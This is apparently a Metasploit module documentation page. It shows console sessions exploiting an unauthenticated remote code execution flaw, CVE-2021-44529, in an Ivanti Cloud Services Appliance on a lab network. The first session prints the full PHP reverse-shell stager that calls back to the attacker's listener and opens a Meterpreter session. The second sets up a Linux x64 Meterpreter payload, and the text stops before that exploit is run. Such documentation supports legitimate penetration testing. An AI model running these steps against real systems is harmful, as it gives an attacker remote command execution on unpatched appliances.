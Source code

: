 ### Ivanti Cloud Services Appliance RCE using payload php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing PHP Command with /*<?php /**/ error_reporting(0); $ip = '192.168.100.7'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
[*] Sending stage (39927 bytes) to 192.168.100.41
[*] Meterpreter session 2 opened (192.168.100.7:4444 -> 192.168.100.41:59432) at 2023-01-08 16:47:23 +0000

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

### Ivanti Cloud Services Appliance RCE using payload linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 2
target => 2
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set srvport 1080
srvport => 1080
```